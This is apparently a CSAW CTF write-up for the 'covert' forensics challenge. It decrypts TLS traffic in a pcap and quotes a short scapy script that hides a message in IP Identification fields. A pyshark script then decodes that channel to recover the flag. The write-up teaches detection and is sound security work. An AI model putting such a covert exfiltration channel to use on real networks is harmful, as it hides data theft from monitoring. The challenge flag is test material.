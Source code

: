 # covert
>It appears there's been some shady communication going on in our network...

## Tools Used
- Wireshark
- python3
##
To start, we're given a pcap(ng) file and a keys.log file, so that should tell us we're gonna be fiddling with Wireshark. 

Opening up Wireshark, we see a lot of TLS packets and not a lot of HTTP so we configure the keys.log file in our Wireshark settings to decrypt this TLS for us. Now the beautiful greens of the HTTP packets are visible! 

Filtering to HTTP packets (of which there are only 6), we spot something interesting; looks like 172.20.10.5 was served a sneakly little python script

![image](https://github.com/user-attachments/assets/0d268e2e-b0c6-4c5d-b68b-a5c8c42cab79)


```python3
from scapy.all import IP, TCP, send
key = ??
dst_ip = "X.X.X.X"
dst_port = ?????
src_ip = "X.X.X.X"
src_port = ?????
def encode_message(message):
    for letter in message:
        ip = IP(dst=dst_ip, src=src_ip, id=ord(letter)*key)
        tcp = TCP(sport=src_port, dport=dst_port)
        send(ip/tcp)
encode_message("????????????")
```

The same host is also browsing (over HTTP2) a firstmonday.org article about Covert channels in the TCP/IP protocol suite (hmm I wonder what this challenge will be about)

We now know to be suspicious of 172.20.10.5's requests over TCP, and if they're using the python script they fetched previously, they're utilizing a 2-digit key to encode their secret messages in the IP section of the TCP packet. The encoding takes a single letter of their message, converts it to decimal, and multiplies it by said key.

The next thing to do is to start snooping around 172.20.10.5's TCP connections and pay extra attention to the IP header contents

![Peek 2024-09-20 02-26](https://github.com/user-attachments/assets/ee704806-84af-4299-9607-5ca6f005c980)

Ain't that strange... Looks like there's something going on with the Identification field. Let's analyze this bad boy in Python and see what happens

```python3
import pyshark

def IPidTCPCovertChannel(packets_of_interest: list[int], flag_format: str, keylog_file: str=None) -> str:
    if keylog_file:
        cap = pyshark.FileCapture("chall.pcapng", override_prefs={"ssl.keylog_file": keylog_file})
    else:
        cap = pyshark.FileCapture("chall.pcapng")

    ip_ids_hex = []
    for idx in packets_of_interest:
        try:
            ip_ids_hex.append(cap[idx].ip.id)
        except AttributeError:
            pass

    #assuming this will give us the flag outright, we know it starts with csaw{ and ends with }
    str_ = ""
    for idx in range(len(ip_ids_hex)):
        #convert hex str ip_id_hex to decimal number ip_id_dec
        ip_id_dec = int(ip_ids_hex[idx], 16)
        #0 is divisible by everything and if we let a zero pass, we're gonna get a divide by zero error, so let's ignore naughty zeros
        if not ip_id_dec: continue
        #we're working with factors of idx, ensure that ip_id is divisible by idx
        if ip_id_dec % ord(flag_format[0]) == 0:
            key = ip_id_dec // ord(flag_format[0])
            if chr(ip_id_dec // key) == flag_format[0]: break
            #TODO may want to store all potentially valid keys in an array in case of false positives

    for idx in range(idx, len(ip_ids_hex)):
        str_ += chr(int(ip_ids_hex[idx], 16) // key)
        if str_[-1] == "}": break

    print(str_)

    return str_

if __name__ == "__main__":
    packets_of_interest = list(range(256, 306))
    flag_format = "csawctf{"
    keylog_file = "keys.log"
    flag = IPidTCPCovertChannel(packets_of_interest, flag_format, keylog_file=keylog_file)
```

Since we know the flag should start with 'c' (decimal 99), we can go letter by letter, checking if our encoded characters are divisible by 99 and, if so, check if the ASCII representation of said division is the character 'c'. If the previous conditions are true, it's probably our flag. 

And just like magic, after running the script, we get: csawctf{licen$e_t0_tr@nsmit_c0vertTCP$$$}

